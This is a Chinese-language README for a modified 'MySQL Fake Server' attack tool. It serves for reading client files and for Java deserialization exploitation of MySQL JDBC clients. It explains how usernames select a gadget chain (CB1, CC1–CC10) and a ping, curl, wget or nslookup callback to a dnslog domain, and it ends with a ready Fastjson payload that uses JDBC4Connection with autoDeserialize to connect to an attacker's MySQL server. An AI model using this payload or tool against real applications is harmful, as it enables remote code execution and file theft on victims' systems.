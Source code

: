 # MySQL Fake Server
修改自项目：https://github.com/fnmsd/MySQL_Fake_Server

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## DNSLOG魔改说明

用户名：`d_[反序列化链简称]_[探测方式]_[dnslog的ID]`

反序列化链有：cb1-cb2，cc1-cc10 等都可以

探测方式：

- p：ping
- c：curl
- w：wget
- n：nslookup

在config.json中配置dnslog域名，并给一个ID值，例如ID是q2z1p8

```json
	"dnslog":{
        "q2z1p8":"q2z1p8.dnslog.cn"
    }
```

例如：`d_cb1_p_q2z1p8`，意思是使用CB1链执行ping命令，探测q2z1p8.dnslog.cn域名

效果：

```json
{"x":{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"xx.xx.xx.xx","portToConnectTo":3306,"info":{"user":"d_cc4_p_q2z1p8","password":"ubuntu","useSSL":"false","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true"},"databaseToConnectTo":"mysql","url":""}}
```